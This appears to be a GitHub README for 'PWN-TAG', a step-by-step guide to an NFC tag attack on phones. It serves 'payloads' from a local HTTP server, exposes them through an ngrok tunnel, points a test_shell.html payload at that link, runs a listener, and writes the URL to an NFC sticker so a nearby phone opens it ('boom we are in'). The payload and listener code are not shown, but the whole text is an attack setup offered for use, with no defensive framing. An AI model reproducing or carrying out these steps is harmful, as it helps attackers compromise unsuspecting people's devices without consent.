 # PWN-TAG
"tag to pwn" NFC tag exploit

things you need: 

nfc tag stickers about $10 for 25 >

https://a.co/d/gl2XRV8

nfc tag writer app:
something similar to this one works and 
the free edition works too

https://apps.apple.com/app/id1252962749

lastly you need a debian based linux distro



##Start HTTP Server in Terminal 1

In your ~/PWN_TAG folder:

```bash
python3 -m http.server 8080
```
Leave it running — this hosts your payloads.

## Start ngrok in Terminal 2

Open a new terminal tab or split window, then run:

```bash
ngrok http 8080
```
Copy that https://... link — that’s your live web URL.

## Update test_shell.html in Terminal 3

If you haven’t updated yet:

```bash
nano payloads/test_shell.html
```
Replace with your real ngrok link

##Start Listener in Terminal 4

```bash
python3 listener.py
```

## imbed NFC tag with url:

open nfc writer app

-choose write

-add record

-choose url

-place ngrok link "https://f6xd-3301-602...ngrok-free.app/payloads/test_shell.html"

-write

## now just place your phone near the tag and boom we are in

## H^3 hope all is well homies




